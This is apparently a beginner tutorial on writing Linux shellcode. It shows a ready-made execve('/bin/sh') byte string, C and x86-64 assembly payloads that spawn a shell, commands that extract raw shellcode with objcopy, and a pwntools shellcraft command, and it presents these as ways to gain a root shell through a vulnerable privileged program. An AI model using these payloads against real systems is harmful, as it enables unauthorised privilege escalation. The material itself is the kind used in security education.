


# THE ART OF SHELLCODE

# what is a shellcode?
 to make simple, a shellcode is a set of instructions, a string of byte which represente a code that we want program
run for you. as you know, the CPU only understant and execute 0's and 1', a shellcode represente those 0's 1's which you want the program exec for you as hacker.

In many case, the purpouse of a shellcode is to pop up a shell. if you obtain a shell(root shell), you can do anything you want. but a shellcode can also be used to read a file , open network connection, make a backdor...
example: this string is a shellcode: "ijhh\x2f\x2f\x2fsh\x2fbin\x89\xe3h\x01\x01\x01\x01\x814\x24ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"


# When could i use a shellcode.
Hacker use shellcode to  exploit weakness in software and make that software execute instructions they control
if you can trigger a program to execute your shellcode, you can make this software execute any command for you.
imagine an instance where you get acces to a remote machine,you dont have permision to read sensitive file as you don't have permision. if you found a vulnerable program(program which is vuln to shelcode injection) which run root permission, you can exploit this to get root access. 


# how to write a shellcdoe:::
there is many way to write a shellcode. It is an art and you master it as long as you make pratice.
the purpose of this cours is to help reader become shellcoders.
it take time to become skilled in this field. it need many pratice. undertand assambled language is mandatory 

i will show you free way to write shellcode.

1 - #   write your program i C langage, compile it and  get the shellcode


2-  #    write your  shellcode in assembled langage, compile it

3 - #    use automate tool to write your shellcode. 

# let explain each of these method

# FROM C program to shellcode.
 I dont recommanded this methodology . because it make you very limited and in some case, you can not use it

how to do that.
    i suppose you know C programming Langage.
    - write your code in C program. 
    - compile your code
    - from the binary code, extract your shellcode

Example:
  /bin/sh shellcode
```
in main(){
execve("/bin/sh", NULL, NULL)
return 0;
}
```
compile the program: 
`` gcc -nostartfiles -o bin_sh bin_sh.c``

you can decompile the program with objdump to  get the assembled code of main function

``objdump -d -M intel bin_sh``




# 
# time to  get the shellcode of this elf file:
to do that, i will use objcopy. a tool  to inspect, modify ELF file

cmd: ``objcopy --dump-section .text=raw_shellcode.txt bin_sh``

this will produce raw_shellcode.txt file containing your shellcode in raw format


in the next article, i will show you how to test your shellcode


# Method 2:
write your shellcode by hand.
that make difference betwen real pwners and followers
in order to do that, you need a good knowledgment of assembler langague.
if want to write shellcode for x86/amd, you must know those assembleur langage.

## Step:
1 - write your shellcode in assembler
2 -compile it to elf file
3 - test if the result elf file work as expect(do the job)
4 - extraction your shellcode from the elf file
5 - test your shellcode.
6 - exploit the program by injecting your shellcode.


# let do an example:
1 - # write a shellcode in assembler langage
 ```
    .global _start

_start:
    .intel_syntax noprefix
    #execve("/bin/sh". 0,0) shellcode
    mov rax, 0x3b  # execve syscall number
    mov rcx, 0x68732f6e69622f # "/bin/sh" string
    push rcx
    mov rdi, rsp # rsp is a pointer to /bin/sh so rdi will also be a pointer after
    xor rsi, rsi # arg1=0
    mov rdx, rsi # rg2=0
    syscall
    # exit(0) syscall
    mov rax, 0x3c
    xor rdi, rdi
    syscall

```

#NB : don't worry if you don't know how this code your, in the  following articles, we will learn all of them

2 - # compile your shellcode:
cmd: ``gcc -nostdlib --static -o shell_elf shellcode.s``
 -nostdlib : do not include standard libraries

-static: the binary will be compiled as static, it will contain all the necessaries to run without load shared object

-o : the output file

After that, you obtain  the shell_elf file and you can test it to see if it work. 


3 -# test the elf file
##### it work

4 - Extract shellcode from the result ELF file
    
    let decompile the file to see its asm code
cmd: ``objdump -d -M intel shell_elf``
 explaination: 
        -d : to decompile executable sections
        -M : asm syntax in which you want the result




# now i will use objcopy to dump the text section 
CMD: ``objcopy --dump-section .text=asm_shellcode.txt shell_elf``

you obtain asm_shellcode.txt which contain your shellcode in raw format.
as you can see, this shellcode is very small and contain less null byte than the previous
size: 41 bytes

in the picture bellow, i use   a tester to test if the shellcode work.
if the nest article, i will show you how to write a tester and test your shellcode


# ther 3rd method:
    # automate tools:
you can use this approch to gain time.
there is may tool to generate a shellcode. but leet me tell you that it is mandatory to learn how to write your own shellcode bu hand.
in some situation, those automate tools will not produce the correct result. so you need to write your shellcode by hand

to do that, you can use:
- pwn tool
msfvenom

``pwn shellcraft sh -f raw  -o my_shell.raw``


